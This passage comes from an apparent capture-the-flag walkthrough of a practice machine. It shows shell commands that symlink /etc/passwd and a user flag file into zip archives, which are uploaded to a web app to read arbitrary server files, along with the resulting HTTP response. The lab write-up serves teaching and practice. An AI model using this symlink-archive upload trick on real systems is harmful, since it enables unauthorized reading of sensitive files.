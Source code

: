 

    oxdf@hacky$ ln -s /etc/passwd passwd.pdf
    oxdf@hacky$ ls -l passwd.pdf 
    lrwxrwxrwx 1 oxdf oxdf 11 Jan  8 18:07 passwd.pdf -> /etc/passwd
    oxdf@hacky$ zip --symlinks passwd.zip passwd.pdf 
      adding: passwd.pdf (stored 0%)
    oxdf@hacky$ unzip -l passwd.zip 
    Archive:  passwd.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           11  2024-01-08 18:09   passwd.pdf
    ---------                     -------
           11                     1 file



It's important to give `zip` the `--symlinks` argument, or else `zip`
will follow the link and put a copy of my `/etc/passwd` into the
archive.

It uploads just fine:

![](/img/image-20240108181524507.png)

Clicking the link shows an empty PDF:

![](/img/image-20240108181023657.png)

If I look in Burp, I'll see that's because the browser is trying to
render a PDF, but the response isn't a PDF:

![](/img/image-20240108181545476.png)

That's file read!

I'll note the user on this box is rektsu, and there's also a mysql user.
In fact, I can make a payload that will return the user flag:



    oxdf@hacky$ ln -s /home/rektsu/user.txt user.pdf
    oxdf@hacky$ zip --symlinks user.zip user.pdf 
      adding: user.pdf (stored 0%)



On viewing it:



    HTTP/1.1 200 OK
    Date: Mon, 08 Jan 2024 23:19:47 GMT
    Server: Apache/2.4.54 (Ubuntu)
    Last-Modified: Mon, 08 Jan 2024 23:19:46 GMT
    ETag: "21-60e776efd7648"
    Accept-Ranges: bytes
    Content-Length: 33
    Connection: close
    Content-Type: application/pdf
